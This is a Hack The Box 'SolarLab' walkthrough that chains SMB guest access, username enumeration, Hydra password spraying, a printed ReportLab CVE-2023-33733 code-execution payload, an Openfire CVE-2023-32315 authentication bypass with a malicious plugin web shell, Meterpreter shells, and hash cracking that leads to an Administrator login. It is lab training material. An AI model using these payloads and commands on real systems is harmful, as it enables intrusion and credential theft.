


# SolarLab

<details>
<summary><b>Table of Contents</b></summary>

- [SolarLab](#solarlab)
  - [Overview](#overview)
  - [Network Enumeration](#network-enumeration)
  - [RPC Enumeration](#rpc-enumeration)
  - [SMB Enumeration](#smb-enumeration)
  - [Web Enumeration](#web-enumeration)
    - [Walking an Application](#walking-an-application)
      - [solarlab.htb](#solarlabhtb)
      - [report.solarlab.htb](#reportsolarlabhtb)
  - [Foothold](#foothold)
    - [ReportHub Dashboard](#reporthub-dashboard)
    - [Exploiting CVE-2023-33733](#exploiting-cve-2023-33733)
  - [PrivEsc](#privesc)
    - [Enumerating Protections](#enumerating-protections)
    - [File System Enumeration](#file-system-enumeration)
    - [Enumerating Installed Programs](#enumerating-installed-programs)
    - [Openfire](#openfire)
      - [Bypassing Authentication with CVE-2023-32315](#bypassing-authentication-with-cve-2023-32315)
      - [Uploading Malicious Plugin via Admin Console](#uploading-malicious-plugin-via-admin-console)
      - [Cracking Administrator Hash from Embedded Database](#cracking-administrator-hash-from-embedded-database)

</details>

## Overview

> - [Machine Link](https://app.hackthebox.com/machines/SolarLab)
> - [Medium Story](https://medium.com/@samaellovecraft/hack-the-box-solarlab-walkthrough-1a25147f6154)

During my testing of the SolarLab environment, I identified several vulnerabilities and misconfigurations that led to a complete compromise. Key findings include **Remote Code Execution (RCE) in ReportLab library ([CVE-2023-33733](https://nvd.nist.gov/vuln/detail/CVE-2023-33733))** leading to initial access, and an **authentication bypass in a locally running Openfire instance ([CVE-2023-32315](https://nvd.nist.gov/vuln/detail/CVE-2023-32315))**. Additionally, I discovered **sensitive information disclosure** through **SMB misconfigurations** allowing access to private documents, as well as instances of **password reuse** across accounts, which facilitated credential exploitation. By chaining these vulnerabilities and misconfigurations, I successfully escalated privileges from a standard user to an administrator, ultimately achieving full system access.

## Network Enumeration

```bash
sudo rustscan -a $IP -r 0-65535 -- -A -Pn -oN enumeration/tcp.all.nmap
```


The TCP scan revealed several open ports:

- 80 (HTTP)
- 135 (RPC)
- 139 and 445 (SMB)
- Another HTTP service on port 6791, which redirects to `http://report.solarlab.htb:6791`.

## RPC Enumeration

To investigate the RPC service running on port 135, I used the `rpcdump` tool from the Impacket suite:

```bash
impacket-rpcdump -p 135 $IP > enumeration/rpcdump.txt
```


This didn't reveal any actionable information, apart from the hostname `SOLARLAB`.

## SMB Enumeration

Next, I attempted to access the SMB server as a guest:

```bash
smbclient -L $IP -U guest
```


This worked, granting me **read access** to the `Documents` share:


Looking through these documents, I discovered a lot of sensitive information in `details-file.xlsx`, including usernames, emails, Social Security Numbers (SSNs), and passwords:


## Web Enumeration

### Walking an Application

#### solarlab.htb

Upon visiting the site, I was met by some strange looking web page with a countdown timer:


In the **About Us** section, I found very useful information, specifically employee names:


Using this finding, I generated a list of possible usernames with `username-anarchy`:

```bash
username-anarchy --input-file names.txt > usernames.txt
```



#### report.solarlab.htb

Upon accessing the subdomain, I encountered a login form:


Using the list generated in the previous step, I began username enumeration with `ffuf`:

```bash
ffuf -c -request report-login.http -request-proto http -ic -w usernames.txt -fr 'User not found.'
```


I found three valid usernames. Next, I needed to find out what error message the form returns when the password is incorrect:


With the list of valid users, error message, and passwords, I performed a password spraying attack using Hydra:

```bash
hydra -L report-users.txt -P passwords.txt report.solarlab.htb -s 6791 http-post-form "/login:username=^USER^&password=^PASS^:User authentication error." -vV
```


Hydra successfully found a valid credential pair, allowing me to log in as user `blakeb` on ReportHub.

## Foothold

### ReportHub Dashboard


Inside the dashboard, several features generated PDF files.

```
http://report.solarlab.htb:6791/leaveRequest
```


I generated a PDF using **Leave Request** and examined its metadata to gather information on the technology used:


It turned out the server was using ReportLab to generate PDFs. Although the exact version wasn't listed, I knew it was worth checking for known vulnerabilities.

### Exploiting CVE-2023-33733

I quickly discovered that a recent version of ReportLab was vulnerable to a critical **Remote Code Execution (RCE)** vulnerability ([CVE-2023-33733](https://nvd.nist.gov/vuln/detail/CVE-2023-33733)) due to insufficient input validation.

- https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897
- https://github.com/c53elyas/CVE-2023-33733

The malicious payload for exploiting this vulnerability is as follows:

```html
<para><font color="[ [ getattr(pow,Word('__globals__'))['os'].system('REVSHELL') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'"></font></para>
```

However, the **Justification** field had a character limit, so I tested other fields and successfully injected the payload into the **From** field:


This granted me initial access to the system as the user `blake`:


## PrivEsc

### Enumerating Protections

The first step I took was to enumerate whether the machine had any protections, such as Windows Defender running or AppLocker:


There were none in place, allowing me to proceed with uploading a Meterpreter shell and other tools if needed.

### File System Enumeration

Almost immediately, I discovered credentials in `C:\Users\blake\Documents\app\utils.py`:



### Enumerating Installed Programs

During the software enumeration, I spotted a non-standard installation of Openfire 4.7.4 present on the system:


Openfire is a real-time collaboration (RTC) server that supports instant messaging. This version is vulnerable to an authentication bypass vulnerability ([CVE-2023-32315](https://vulncheck.com/blog/openfire-cve-2023-32315)), with a [PoC exploit](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT) publicly available.

Interestingly, the main webpage mentioned SolarLab IM and advertised its privacy and security features. Funny, huh?

### Openfire

First, I had to ensure that Openfire was running locally on the machine. A quick search led me to a [list of ports commonly used by Openfire](https://discourse.igniterealtime.org/t/list-of-ports-used-by-openfire/75860).


Sure enough, it was running!

#### Bypassing Authentication with CVE-2023-32315

To exploit this vulnerability, I first needed to forward port 9090, which is used by the Openfire Admin Console, to my machine:


Now, I could proceed with firing up the exploit:


The exploit worked, and I was able to log in with the newly added user account.


#### Uploading Malicious Plugin via Admin Console

After conducting more research, I found a way to achieve Remote Code Execution (RCE) through the admin console by [uploading a malicious plugin](https://github.com/miko550/CVE-2023-32315).

Here are the steps I took:

1. Navigate to `/plugin-admin.jsp` and upload the [plugin](https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar).
2. Navigate to `/plugins/openfire-management-tool-plugin/cmd.jsp`, and enter the password `123`.
3. Execute commands at `/plugins/openfire-management-tool-plugin/cmd.jsp?action=command`.


Then, I executed a Meterpreter shell and gained access as the `openfire` user:


#### Cracking Administrator Hash from Embedded Database

With this access, I was able to explore Openfire's configuration files and database:


The `openfire.script` file serves as a database. It is a text file containing all SQL commands, which are loaded into memory when Openfire starts.


Further research revealed a tool to decrypt hashes from the Openfire embedded database: [openfire_decrypt](https://github.com/c0rdis/openfire_decrypt). After transferring the database to my machine and compiling the tool, I successfully decrypted the `admin`'s password:


It turned out that the password was reused for the local `Administrator` account on the system, allowing me to gain full administrative access.

```bash
mkdir mnt; sudo mount -t cifs -o username=Administrator,password='ThisPasswordShouldDo!@' //$IP/C$ mnt
```


That's it! If you found this walkthrough at least somewhat helpful or interesting, consider [giving me some respect on Hack The Box](https://app.hackthebox.com/profile/1007130) or just [leave a clap](https://medium.com/@samaellovecraft/hack-the-box-solarlab-walkthrough-1a25147f6154) below!
